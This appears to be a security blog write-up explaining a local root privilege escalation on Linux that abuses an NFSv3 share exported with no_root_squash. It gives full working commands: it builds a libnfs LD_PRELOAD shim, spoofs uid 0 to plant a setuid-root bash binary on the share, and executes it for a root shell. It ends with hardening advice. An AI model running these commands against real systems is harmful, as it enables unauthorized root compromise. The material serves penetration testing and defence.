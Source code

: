 A tale of a lesser known NFS privesc
====================================

[There](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) [are](https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/) [countless](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/) [online](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/) [examples](https://resources.infosecinstitute.com/exploiting-nfs-share/) [of](https://touhidshaikh.com/blog/?p=788) [privilege](https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html) [escalation](https://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html) abusing bad NFS configuration.

However they all rely on the same prerequisite: that you are able to mount the share from somewhere else.


The NFS options
---------------

Server export options:

* `secure`/`insecure`: in secure mode, forces the client to communicate using a port below 1024, hence proving they are root
* `root_squash`/`no_root_squash`: `root_squash` is the **secure default**. It replaces the root user with nfsnobody. This prevents setuid attacks, such as those presented below. The opposite option `no_root_squash` has the share behave like a traditional filesystem
* filtering: only let identified IP addresses mount the shares

Client mount options:

* `noexec`: forbids execution from the mountpoint
* `nosuid`: forbids setuid permission on binaries on the mountpoint


The classic remote attack
-------------------------

To briefly sum up what the attacks presented on the previous links do:

* mount the share from another machine where you're root
* place a setuid binary there
* on the victim machine, run the binary and get root

This attack requires two things:

* that the server is running `no_root_squash`
* that there is no network/application filtering that prevents the attacker from mounting the share on his own computer.


The  local attack
-----------------

Now, let's assume that the share server still runs `no_root_squash` but there is something preventing us from mounting the share on our machine. So we're stuck to exploiting the machine locally from an unprivileged user. It just so happens that there is another, lesser known local exploit.

This exploit relies on a problem in the NFSv3 specification that mandates that it's the client that advertises its uid/gid when accessing the share. Thus it's possible to fake it!

Here's a [library that lets you do just that](https://github.com/sahlberg/libnfs).

### Compiling the example
Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscall. Due to the absence of cmake on the system, I also needed to link against the precompiled library which can be [found here](https://sites.google.com/site/libnfstarballs/li).

```
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L../libnfs-1.11.0/lib/.libs/
```

### Exploiting using the library
Let's use the simplest of exploits:
```
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root:
```
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root:root nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that's left is to launch it:
```
[w3user@machine libnfs]$ /mnt/share/a.out
[root@machine libnfs]#
```

There we are, local root privilege escalation!

Thanks to @lnv42 for showing me this cool trick.


Takeaways
---------

Don't use NFSv3.

If you **HAVE** to use NFSv3:

* Don't use `no_root_squash` serverside
* Use `noexec` and `nosuid` clientside
